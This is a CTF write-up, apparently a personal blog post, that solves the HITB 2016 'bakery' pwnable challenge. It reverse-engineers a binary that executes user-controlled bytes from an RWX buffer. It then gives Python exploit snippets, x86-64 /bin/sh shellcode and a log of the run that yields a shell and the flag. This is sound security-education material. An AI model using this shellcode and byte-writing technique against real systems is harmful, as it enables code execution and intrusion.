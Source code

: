 ```yaml
---
layout: post
title: HITB 2016 - Bakery write-up
author: hugsy
author_twitter: _hugsy_
author_email: hugsy@[RemoveThisPart]blah.cat
author_github: hugsy
tags: exploit hitb
---
```


I participated to [HITB Teaser CTF](https://ctf.0ops.net/) only to have a bit of
fun with there pwnable challenge(s) which I find usually fun and
instructive. The teaser only offered one pwnable challenge, named `bakery`.


### Info ###

The vulnerable file is [here](http://s000.tinyupload.com/?file_id=02989717986988330189)

{% highlight bash %}
gef➤  !file ./bakery.910abf341053d25831ecb465b7ddf738
./bakery.910abf341053d25831ecb465b7ddf738: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=74fa32ca74594550d59ff5fb64b8dd523965cdfc, stripped
gef➤  checksec ./bakery.910abf341053d25831ecb465b7ddf738
[+] checksec for './bakery.910abf341053d25831ecb465b7ddf738'
Canary:                                           Yes
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    Yes
Full RelRO:                                       No
{% endhighlight %}

It is a baking program, that allows to build your own recipe.

<!--more-->

### Vulnerability ###

After printing the available ingredients, the `main` function does this (at
0x0400CBC)
![](https://i.imgur.com/yrFucNx.png)

Which translates to the pseudo-code:
{% highlight c %}
buf = mmap(NULL, 0x1000, RWX, flags, ...);
memset(buf, '\xc3', 0x1000);
srand( time(NULL) );
randint = rand() * 0x1337;
printf("0v3n w4rm3d up to %d d3greez! (d4mn h0t!)\n", randint);
{% endhighlight %}

Then it enters a loop to add the ingredients:
{% highlight c %}
printf("Add ingredient");
fgets(ingredient, 127, stdin);
ingredient[ strlen(ingredient)-1 ] = '\x00';
strncmp(ingredient, "BAKE", 4);
{% endhighlight %}

If we enter `BAKE`, it will simply jump to the buffer allocated by `mmap` from
above:
{% highlight asm %}
.text:0000000000400EB8                 mov     rax, [rbp+mmap_buf]
.text:0000000000400EBF                 mov     [rbp+var_108], rax
.text:0000000000400EC6                 mov     rdx, [rbp+mmap_buf]
.text:0000000000400ECD                 mov     rax, [rbp+var_108]
.text:0000000000400ED4                 mov     rdi, rdx
.text:0000000000400ED7                 call    rax
{% endhighlight %}

Otherwise, it will check using `strstr()` if our ingredient we entered is in the
list of valid ingredients. If the sub-string was found, it calls a function at
0x400B15 with 2 arguments, the string we provided as input for ingredient, and
the random integer generated initially.

The function at 0x400B15 is fairly simply and could be translate to pseudo-code
like this:
{% highlight c %}
int func_400B15(char* input, int init)
{
  int accu;
  int i;
  accu = init;
  for( i=0; i<strlen(input); i++ ) accu += input[i];
  return accu;
}
{% endhighlight %}

The result is then `and`-ed to 0xff and written at current location in the mmap
allocated buffer
{% highlight asm %}
.text:0000000000400E77                 mov     rax, [rbp+p_mmap_buf]
.text:0000000000400E7E                 movzx   edx, [rbp+result]
.text:0000000000400E85                 mov     [rax], dl
.text:0000000000400E87                 add     [rbp+p_mmap_buf], 1
{% endhighlight %}
The pointer to the `mmap` buffer is incremented.


So what this program is doing, is using the "accumulator" function to write
inside the `mmap` buffer, which will then be jumped into and executed.


### Exploitation ###

Getting the initial random integer can be done by reading from the socket until
reahcing the string `0v3n w4rm3d up to` and divide this value by 0x1337.
{% highlight python %}
    # get the init rand()
    parts = s.read_until("\n").split()
    temp = int(parts[5])
    ok("Got temp=%d" % temp)
    rand = temp / 0x1337
    ok("Got rand=%d" % rand)
{% endhighlight %}

To reliably control the content of the mmaped buffer, we need to "compensate"
the accumulation that the function is doing. Since we know the initial random
integer, my approach was to use one of the valid ingredients (in this case
`FLOUR`) which is required to pass the `strstr()` check, sum up the ascii values
of the letters of the word, and add the random init.
{% highlight python %}
def write_char_in_memory(sock, char, init):
    sock.read_until("add ingredient> ")
    [...]
    base = init + sum( [ord(x) for x in 'FLOUR'] )
{% endhighlight %}

If the value does not finish by a NULL, I calculate what is the closest upper
bound to be aligned with 0, and substract the result with my value:
{% highlight python %}
def find_closest_upper_bound(x):
    a = x >> 8
    a+= 1
    return a << 8

[...]
    top = base
    if base & 0xff != 0x00:
        top = find_closest_upper_bound(base)
    diff = top-base
{% endhighlight %}

This gives me in the `diff` variable what needs to be added to the stub `randint
+ 'F' + 'L' + 'O' + 'U' + 'R'`. We can then padding this stub by appending to
this stuff `diff` times `\x01`. This way we fully control the last byte, so we
can append the character we actually want written in memory.


Now that we can write reliably one character at a time, we can copy our
shellcode:
{% highlight python %}
        sc = "\x48\x31\xd2"                                  # xor rdx, rdx
        sc+= "\x48\x31\xc0"                                  # xor rax, rax
        sc+= "\x48\x31\xf6"                                  # xor rsi, rsi
        sc+= "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      # mov rbx, 0x68732f6e69622f2f
        sc+= "\x48\xc1\xeb\x08"                              # shr rbx, 0x8
        sc+= "\x53"                                          # push rbx
        sc+= "\x48\x89\xe7"                                  # mov rdi, rsp
        sc+= "\xc6\xc0\x3b"                                  # mov al, 59
        sc+= "\x0f\x05"                                      # syscall

        for c in sc:
            write_char_in_memory(s, c, rand & 0xff)
{% endhighlight %}

And to execute it, the only thing left is to start baking!
{% highlight python %}
        s.read_until("add ingredient> ")
        s.write("BAKE" + '\n' )
{% endhighlight %}

Let's go:
{% highlight bash %}
$  py gef-exploit.py
[+] Connected to 52.17.31.229:31337
Attach with GDB and hit Enter
[+] Got banner
[+] Got temp=654227
[+] Got rand=133
[*] Writing char=H rand=133
[*] Using top=768, base=525
[*] Sending ''FLOURAAA\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01H''
[*] Writing char=1 rand=133
[*] Using top=768, base=525
[...]
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
python -c "import pty;pty.spawn('/bin/bash')"
bakery@ip-172-31-31-97:/$ cd home/bakery
cd home/bakery
bakery@ip-172-31-31-97:/home/bakery$ ls
ls
YOU_WANT_THIS_ONE  bakery
bakery@ip-172-31-31-97:/home/bakery$ cat YOU_WANT_THIS_ONE
cat YOU_WANT_THIS_ONE
You win! The flag is HITB{24d467d954cc08efbfa6acd8341e55d7}
bakery@ip-172-31-31-97:/home/bakery$
{% endhighlight %}

Fun challenge, thanks to the whole HITB crew for their continuous inventivity.

And as usual, the full exploit can be found
[here](https://gist.github.com/hugsy/06ff00997c9d07099f27).
